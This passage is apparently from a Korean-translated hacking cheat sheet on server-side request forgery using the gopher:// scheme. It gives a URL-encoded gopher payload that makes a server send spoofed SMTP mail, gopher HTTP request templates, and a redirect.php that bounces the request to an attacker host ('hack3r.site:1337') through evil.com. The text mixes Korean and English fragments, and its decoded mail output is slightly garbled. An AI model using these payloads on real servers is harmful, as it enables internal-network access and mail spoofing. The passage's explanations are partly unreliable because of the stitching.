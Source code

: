 이 프로토콜을 사용하면 서버가 보낼 **IP, 포트 및 바이트**를 지정할 수 있습니다. 그런 다음, 기본적으로 SSRF를 악용하여 **모든 TCP 서버와 통신**할 수 있습니다 (단, 먼저 해당 서비스와 통신하는 방법을 알아야 합니다).\
다행히도, [Gopherus](https://github.com/tarunkant/Gopherus)를 사용하여 여러 서비스에 대한 페이로드를 생성할 수 있습니다. 또한, [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)를 사용하여 _Java RMI_ 서비스에 대한 _gopher_ 페이로드를 생성할 수 있습니다.

**Gopher smtp**
```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AHYou didn't say the magic word !
.
QUIT
```
**Gopher HTTP**

Gopher HTTP is a technique used in Server-Side Request Forgery (SSRF) attacks. SSRF is a vulnerability that allows an attacker to make requests from the server to other internal or external resources. Gopher HTTP takes advantage of the Gopher protocol, which is a simple protocol used for retrieving documents over the Internet.

To perform a Gopher HTTP attack, the attacker crafts a URL that starts with the "gopher://" scheme instead of the usual "http://" or "https://". The URL is then followed by the IP address or domain name of the target server and the port number. After that, the attacker can specify the desired action, such as requesting a file or executing a command.

The Gopher protocol allows the attacker to bypass certain security measures, as it is not as widely monitored or filtered as HTTP or HTTPS. This makes it an attractive option for attackers looking to exploit SSRF vulnerabilities.

To protect against Gopher HTTP attacks, it is important to validate and sanitize user input, especially when making requests to external resources. Additionally, network filtering and monitoring can help detect and block suspicious Gopher requests.

Remember, understanding and being aware of different attack techniques like Gopher HTTP can help you better defend against them.
```bash
#For new lines you can use %0A, %0D%0A
gopher://<server>:8080/_GET / HTTP/1.0%0A%0A
gopher://<server>:8080/_POST%20/x%20HTTP/1.0%0ACookie: eatme%0A%0AI+am+a+post+body
```
**Gopher SMTP - 1337에 대한 백 커넥션**

{% code title="redirect.php" %}
```php
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```
{% endcode %}
